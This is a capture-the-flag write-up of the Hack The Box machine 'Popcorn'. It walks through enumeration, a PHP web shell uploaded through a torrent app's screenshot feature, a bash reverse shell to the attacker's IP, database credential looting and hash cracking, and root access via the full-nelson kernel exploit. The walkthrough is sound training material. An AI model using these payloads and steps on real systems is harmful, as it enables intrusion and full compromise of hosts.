



# Popcorn: 10.10.10.6

## Hints

- Enumeration helps find a "hidden" web application
- Getting a foothold is all about a malicious PHP file upload vulnerability
- For privesc, think about how old the Linux system is

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
```

## 80: Recon

Looking at port 80, we see the (old) default Apache page.


Started a `gobuster` on the root of the webserver. Almost instantly, found the `test.php` page. Loading up the page, and got the `phpinfo()` output included in the page. This is some really useful info.



One this I noted was the PHP version that was installed.

```none
PHP Version 5.2.10-2ubuntu6.10
```

After a while, another directory was discovered by `gobuster`, named `torrent`. Browsing to the URL shows a "Torrent Hoster" web app.



Started to do some research in the background. Although this seems like "actual software" - there is little information about it (e.g., GitHub or SourceForge repo), and the website copyright was back in 2007. The only links I can find on Google are about Hack The Box. So instead I started to poke around the web application - trying all the links, and looking for some user input.

Also tried a `searchsploit` which did discover one vulnerability.

```none
└─$ searchsploit torrent hoster
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Torrent Hoster - Remount Upload                                                   | php/webapps/11746.txt
---------------------------------------------------------------------------------- ---------------------------------
```

Having a look at this didn't really help much. I couldn't figure out what the exploit was doing. But it did give me the idea of testing all the file uploads. But to upload something you need to be registered. Luckily, registration was open to anyone!

After making an account, I tried the torrent upload using an Ubuntu 20.04 torrent file.

```none
wget https://releases.ubuntu.com/20.04/ubuntu-20.04.2-live-server-amd64.iso.torrent
```

Tried modifying the request to upload some PHP code - but had no luck. This took longer than I would like to admit, but I finally found the screenshot/image that you can add to an existing torrent. I intercepted request to change the screenshot using the default `thumbnail.png` file from the web app. For image uploads I always start simple, and add more layers of complexity. [HackTricks File Upload General Methodology](https://book.hacktricks.xyz/pentesting-web/file-upload) is a great resource for this process.

Anyway, I modified the request to have a PHP payload in the body, and a `.php` extension. That way we can execute the file. At this point, I went back to the `phpinfo()` page to check for file upload capability, and for blacklisted PHP functions - but all looked good.



A trick I have learned from _ippsec_ is to use a generic PHP payload that we can send a HTTP request parameter. This is much more flexible than a reverse shell as we can run commands, and do more testing without continually uploading files. My go to payload is:

```none
<?php system($_REQUEST["cmd"]) ?>
```

Finding the uploaded file is possible, as it is displayed when you hover over the screenshot in the web app. It is under `torrent/upload`.


Looks like the file name is changed to a hash of something. I couldn't figure out what the hash is, as it is not the filename or the file. Looking at the web source would probably determine what it is. Anyway, now we have code execution.


I intercepted a request using Burp, and started trying to get a reverse shell. Used a standard bash shell - which worked well.

```none
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'
```

A side note, this was the first time I changed my GET request to a POST request. This is possible, as the PHP payload isn't only for GET requests. I must say, using a POST request is much cleaner and simpler for trying different payloads. From here, we have a reverse shell as the `www-data` user.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.6] 51583
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Found the user flag in the `george` home directory

```none
www-data@popcorn:/home/george$ wc -c user.txt
wc -c user.txt
33 user.txt
```

## Privesc Rabbithole

Thought it was interesting to include some of the database password enumeration I did, just to have in my notes. Linpeas found the following database credentials.

```none
╔══════════╣ Searching passwords in config PHP files
   $dbpass = $CFG->dbPassword;
   $dbuser = $CFG->dbUserName;
   $CFG->dbPassword = "SuperSecret!!";   //db password
   $CFG->dbUserName = "torrent";    //db username
```

Given these, I logged into the database to look for more info. 

```none
www-data@popcorn:/home/george$ mysql -u torrent -p    
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 65
Server version: 5.1.37-1ubuntu5.5 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

I don't use MySQL regularly enough, so I always need to look up the syntax. My go to is this [MySQL Cheatsheet](https://gist.github.com/hofmannsven/9164408).

```
mysql> show databases;
...
mysql> use torrenthoster
...
mysql> show tables;
...
mysql> select * from users;
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
| id | userName | password                         | privilege | email                | joined              | lastconnect         |
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
|  3 | Admin    | d5bfedcee289e5e05b86daad8ee3e2e2 | admin     | admin@yourdomain.com | 2007-01-06 21:12:46 | 2007-01-06 21:12:46 | 
|  5 | tom      | 34b7da764b21d298ef307d04d8152dc5 | user      | tom@tom.com          | 2021-07-25 08:26:39 | 2021-07-25 08:26:39 | 
+----+----------+----------------------------------+-----------+----------------------+---------------------+---------------------+
2 rows in set (0.00 sec)
```

I tried to crack the password for the `admin` user - looking for password reuse on the system. Started with a reverse hash lookup:

```none
https://md5.gromweb.com/?md5=d5bfedcee289e5e05b86daad8ee3e2e2
```

I knew it was md5, as I can reverse the password for my user. With no reverse hash lookup, tried `john`.

```
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt admin_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2021-07-25 19:16) 0g/s 18156Kp/s 18156Kc/s 18156KC/s  fuckyooh21..*7¡Vamos!
Session completed
```

No luck! Also tried to database password everywhere, but that didn't work either! Moving on!

## Privesc: `www-data` to `root`

At some point it is good to stop your current path and switch. I am getting better at this, but it takes practice. I took a 5 minute tea break and thought that my method was too complex. Thinking simply, it seemed like a decent path would be attacking an old system, instead password reuse. I mean, look at the operating system! It is ancient!

```none
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits                                       
Linux version 2.6.31-14-generic-pae (buildd@rothera) (gcc version 4.4.1 (Ubuntu 4.4.1-4ubuntu8) ) #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009
Distributor ID: Ubuntu
Description:    Ubuntu 9.10
Release:        9.10
Codename:       karmic
```

I decided to run the [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester) on the system, to try find suitable exploits. I had not used the tool before, but it is a simple bash script, and seems to get updated regularly. The full tool output is available in the logs folder. The first exploit listed was Full Neloson.

```none
[+] [CVE-2012-0056,CVE-2010-3849,CVE-2010-3850] full-nelson

   Details: http://vulnfactory.org/exploits/full-nelson.c
   Exposure: highly probable
   Tags: [ ubuntu=(9.10|10.10){kernel:2.6.(31|35)-(14|19)-(server|generic)} ],ubuntu=10.04{kernel:2.6.32-(21|24)-server}
   Download URL: http://vulnfactory.org/exploits/full-nelson.c
```

I downloaded to source code.

```none
wget http://vulnfactory.org/exploits/full-nelson.c
```

And uploaded it to server, and compiled it using the instructions in the source code.

```none
www-data@popcorn:/dev/shm$ gcc full-nelson.c -o full-nelson
gcc full-nelson.c -o full-nelson
www-data@popcorn:/dev/shm$ ls
ls
full-nelson
full-nelson.c
les.sh
linpeas.sh
www-data@popcorn:/dev/shm$ ./full-nelson
./full-nelson
id
uid=0(root) gid=0(root)
```

Success! A shell as `root`!

```none
wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Use POST requests for simpler PHP payload manipulation when using `$_REQUEST`
- Linux Exploit Suggester is a good tool for Linux privesc

## Useful Resources

- [HackTheBox - Popcorn by ippsec](https://www.youtube.com/watch?v=NMGsnPSm8iw)
- [HTB: Popcorn by 0xdf](https://0xdf.gitlab.io/2020/06/23/htb-popcorn.html)
- [How To Hack: Popcorn From HackTheBox by Marvin Gerlach](https://infosecwriteups.com/hackthebox-popcorn-f1ace3de846d)
